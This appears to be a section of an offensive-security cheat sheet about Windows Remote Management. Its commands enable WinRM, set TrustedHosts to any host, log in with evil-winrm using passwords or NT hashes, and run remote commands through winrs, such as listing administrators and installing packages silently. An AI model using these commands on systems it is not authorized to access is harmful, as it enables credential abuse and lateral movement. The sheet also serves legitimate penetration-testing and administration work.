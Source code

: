 
### <a name='service-activation'></a>service-activation
▶️ PLAY :
```powershell
# enable remote access
winrm quickconfig
enable-psremoting

# set trustedhosts as any / fix error below
winrm set winrm/config/client '@{TrustedHosts="*"}'
winrm set winrm/config/client '@{TrustedHosts="1.1.1.1"}'
# Winrs error:The WinRM client cannot process the request. Default authentication may be used with an IP address under the following conditions: the transport is HTTPS or the destination is in the TrustedHosts list, and explicit credentials are provided. Use winrm.cmd to configure TrustedHosts. Note that computers in the TrustedHosts list might not be authenticated. For more information on how to set TrustedHosts run the following command: winrm help config. 

# get the trustedhosts
Get-Item WSMan:\localhost\Client\TrustedHosts
```

### <a name='client-evil-winrm'></a>client-evil-winrm
* [Evil-winrm](https://github.com/Hackplayers/evil-winrm):
▶️ PLAY :
```sh
evil-winrm -i $ztarg_computer_ip -u $ztarg_user_name -p $ztarg_user_pass
evil-winrm -i $ztarg_computer_ip -u $ztarg_user_name -H $ztarg_user_nthash
```

### <a name='client-winrs'></a>client-winrs

* silver tickets : HTTP

▶️ PLAY :
```powershell
# Run a dir command on a remote machine:
$null |winrs -r:$ztarg_computer_name dir
winrs -r:$ztarg_computer_name "cmd /c net localgroup Administrators"
winrs -r:$ztarg_computer_name -u:$zx -p:$ztarg_user_pass "cmd /c net localgroup Administrators"

# Run an install package on a remote server:
winrs -r:$ztarg_computer_name msiexec.exe /i c:\install.msi /quiet

# Run a PowerShell script on the remote box:
winrs /r:$ztarg_computer_name powershell.exe -nologo -noprofile -command d:\test\test.ps1

#You can’t open a full interactive remote PowerShell console, but as remoting is built-in to PowerShell 2.0 there is no need.
#Connecting to the remote server 'myserver'
winrs -r:https://$ztarg_computer_name command
winrs -r:$ztarg_computer_name -usessl command
winrs -r:$ztarg_computer_name command
winrs -r:$ztarg_computer_ip -u:$zx -p:$ztarg_user_pass
winrs -r:http://127.0.0.1 command
winrs -r:http://$ztarg_computer_ip:80 -unencrypted command
winrs -r:https://$ztarg_computer_ip -t:600 -u:$zx -p:$ztarg_user_pass
winrs -r:$ztarg_computer_name -env:PATH=^%PATH^%;c:\tools -env:TEMP=d:\temp config.cmd
winrs -r:$ztarg_computer_name netdom join $ztarg_computer_name /domain:$zdom_fqdn /userd:$ztarg_user_name /passwordd:$ztarg_user_pass
```
